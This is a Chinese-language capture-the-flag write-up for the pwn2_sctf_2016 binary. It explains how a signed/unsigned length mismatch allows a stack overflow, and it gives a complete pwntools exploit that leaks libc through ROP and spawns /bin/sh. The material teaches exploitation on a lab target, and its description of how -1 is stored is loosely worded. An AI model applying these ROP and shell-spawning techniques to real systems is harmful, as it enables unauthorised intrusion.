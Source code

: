 ## 0x001 程序分析

分析vuln函数

![](1.png)

函数中首先使用 **get_n** 接收输入4个字符，然后使用atoi将输入的字符串转化为整数

如果输入的整数大于32，则报错，如果小于32，则可以输入该长度字符。

## 0x002 漏洞分析

由于 **nptr** 数组的长度为32，那么根据程序的限制，只能接收输入长度小于32的字符串，那么如果输入的长度小于32，则不能造成栈溢出。

那么只能进入 **get_n** 查看一下

![](2.png)

在这里可以看到， **get_n** 接收的输入的第二个参数也就是接收输入长度为 **无符号整型**，而在vuln中调用 **get_n** 时，传的参数v2为 **有符号整型**，那么此时就会产生 **整型溢出** 漏洞。

比如我们在第一个输入时，输入 **-1**，那么atoi就会将 **-1** 转化为 **0xffff** 保存在内存中。当 **0xffff** 与 32 比较时，是以有符号整型和其比较的，也就是 -1 和 32 进行比较。当 **0xffff** 作为无符号整型作为接收输入长度时，这个长度就很大了，也就是65535，这个长度足够造成栈溢出了。

## 0x003 漏洞利用

上面已经分析了整数溢出的利用方式，有了整数溢出，就可以很轻松的利用栈溢出漏洞了。

查看程序只开启了 NX 保护

![](3.png)

那么接下来就是常规的栈溢出漏洞利用手法，构造ROP泄漏libc地址，然后调用system("/bin/sh")获取系统权限。

最终exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./pwn2_sctf_2016")
elf = ELF("pwn2_sctf_2016")

printf_got = elf.got["printf"]
printf_plt = elf.plt["printf"]
main_addr = elf.symbols["main"]

p.sendlineafter("How many bytes do you want me to read? ", "-1")

payload = b"A" * 48 + p32(printf_plt) + p32(main_addr) + p32(printf_got)
p.sendline(payload)

p.recvuntil(b"You said: ")
p.recv(61)
printf_real_addr = u32(p.recv(4))

libc = LibcSearcher("printf", printf_real_addr)
libcbase = printf_real_addr - libc.dump("printf")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

p.sendlineafter(b"How many bytes do you want me to read? ", b"-1")
payload = b"A" * 48 + p32(system_addr) + p32(main_addr) + p32(bin_sh_addr)
p.sendline(payload)

p.interactive()
```